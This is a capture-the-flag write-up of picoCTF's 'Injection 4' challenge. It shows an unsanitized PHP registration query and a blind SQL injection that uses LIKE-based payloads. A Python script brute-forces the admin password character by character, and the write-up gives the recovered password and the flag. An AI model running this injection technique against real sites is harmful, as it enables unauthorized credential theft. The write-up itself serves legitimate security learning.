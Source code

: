 # Injection 4 Writeup
##### By sdamashek of TJ CSL

Injection 4 has two forms, one to log in and one to register. Looking at the code, we saw that `login.php` calls `mysqli_real_escape_string()` on both the `POST`ed username and password, so there was no way to trick the service into letting us log in using SQL injection. However, `register.php` (which took only a username) does not filter the `POST`ed username:

```php
$username = $_POST["username"];
$query = "SELECT * FROM users WHERE username='$username'";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) !== 0) {
  die("Someone has already registered " . htmlspecialchars($username));
}

die("Registration has been disabled.");
```

However, because we don't get the results of the query, only if there are results, we can't just retrieve the password using simple injection and use it to log in; we have to be more clever. The way we did it was to brute force the password one character at a time using the [`LIKE` operator](http://www.w3schools.com/sql/sql_like.asp). Since we knew the username was admin, if we passed a username of `admin AND PASSWORD LIKE 'a%'-- `, and the result was `Someone has already registered [username]`, then we know `admin`'s password starts with `a`. I wrote a quick python script to get the password one character at a time using this method:

```py
passchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ01234567890!@#$^&*()_+-=.,<>?/[]{}'

import requests
password = ''

while True:
    print password
    for i in passchars:
        r = requests.post('http://web2014.picoctf.com/injection4/register.php',data={'username':"admin' AND PASSWORD LIKE '"+password+i+"%'-- "}).text
        if 'has already registered' in r:
            password = password + i
            break
```

After letting it run for a bit, it stopped giving new characters at `youllneverguessthispassword`. Logging in with `admin` and `youllneverguessthispassword` gave us the flag, `whereof_one_cannot_speak_thereof_one_must_be_silent`.
